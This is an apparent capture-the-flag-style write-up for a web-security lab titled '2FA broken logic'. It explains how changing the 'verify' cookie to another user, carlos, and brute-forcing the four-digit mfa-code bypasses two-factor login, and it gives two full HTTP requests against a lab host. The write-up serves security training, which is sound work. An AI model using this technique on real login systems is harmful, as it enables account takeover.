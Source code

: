 #### Lab: 2FA broken logic

- Login as `wiener` and send request to a repeater
- Update requst to have `wiener`->`carlos` when you are sending this request it means that carlos will get mfa-code to his email:

```html
GET /login2 HTTP/2
Host: 0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net
Cookie: verify=carlos; session=a37FxeQMvEbP7pQxWjf30qTHpAx3phKf
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net/login
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
```

- When you previously logged in as `wiener` you also got a mfa-code and can send your requst to intruder, updating verify to `carlos`, and now we could try to brute force mfa-code

```html
POST /login2 HTTP/2
Host: 0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net
Cookie: verify=wiener; session=a37FxeQMvEbP7pQxWjf30qTHpAx3phKf
Content-Length: 13
Cache-Control: max-age=0
Sec-Ch-Ua: "Not)A;Brand";v="8", "Chromium";v="138"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "Linux"
Accept-Language: en-US,en;q=0.9
Origin: https://0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net
Content-Type: application/x-www-form-urlencoded
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/138.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: same-origin
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Referer: https://0a9c003d04e7953b819b0c2100cb00bb.web-security-academy.net/login2
Accept-Encoding: gzip, deflate, br
Priority: u=0, i

mfa-code=1610
```
